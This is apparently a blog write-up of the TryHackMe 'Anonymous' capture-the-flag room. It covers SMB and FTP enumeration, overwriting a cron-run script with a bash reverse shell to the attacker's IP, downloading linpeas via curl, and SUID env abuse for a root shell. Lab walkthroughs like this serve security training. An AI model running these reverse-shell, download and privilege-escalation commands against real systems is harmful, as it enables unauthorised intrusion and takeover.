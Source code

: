 ```yaml
---
title: TryHackMe Anonymous Room Walkthrough
date: 2025-10-31 18:00:00 +0100
categories: [Cybersecurity, Capture The Flag, TryHackMe, Writeups]
tags: [TryHackMe, Anonymous Room, SMB Enumeration, FTP Exploitation, Privilege Escalation]
render_with_liquid: false
---
```


TryHackMe — Anonymous Room Walkthrough
=====================================

Room Overview
-------------

- Difficulty: Medium
- Focus areas: SMB enumeration, FTP abuse, cron exploitation, SUID privesc
- Goal: Capture `user.txt` and `root.txt`

Initial Recon
-------------

I kicked things off with a simple port scan:

```
nmap -sC -sV [target_IP]
```

Open ports came back as 21, 22, 139, and 445. SSH (`22`) was closed off pending credentials, so SMB (`139/445`) and FTP (`21`) became the obvious entry points.

SMB Enumeration
---------------

Anonymous SMB access was enabled:

```
smbclient -L /[target_IP]/ -N
```

The `pics` share allowed read access. I pulled the files locally but they were just benign images. Nothing to extract via `strings` or `steghide`.

FTP Enumeration & Foothold
--------------------------

Anonymous FTP logins were also allowed:

```
ftp [target_IP]
Name: anonymous
Password: [anything]
```

Inside `/scripts` I found three files:

- `to_do.txt` – a small note hinting at housekeeping tasks
- `clean.sh` – bash script that logs “nothing to delete”
- `removed_files.log` – empty, confirming the cleanup script runs via cron

Because the FTP share was writable, I replaced `clean.sh` with a reverse shell payload:

```
#!/bin/bash
bash -i >& /dev/tcp/[My_IP]/1234 0>&1
```

After uploading the modified script, I started a listener with `rlwrap nc -lvn 1234`. A few minutes later, the cron job executed and I caught a shell as the service user.

Shell Stabilisation
-------------------

I upgraded the shell for quality-of-life improvements:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
```

From there I grabbed `user.txt` in the home directory.

Privilege Escalation
--------------------

To get `linpeas.sh` onto the box, I spun up a quick web server on my attacking host with `python3 -m http.server 8000` and fetched the script from the reverse shell using `curl http://[My_IP]:8000/linpeas.sh -o /tmp/linpeas.sh`. After marking it executable, I ran it to enumerate privilege escalation paths. The standout finding was an unusual SUID binary, `env`, owned by root. `GTFOBins` confirmed it could be abused to overwrite files as root:

```
/usr/bin/env /bin/bash -p
```

With the resulting root shell, I recovered `root.txt` from `/root`.



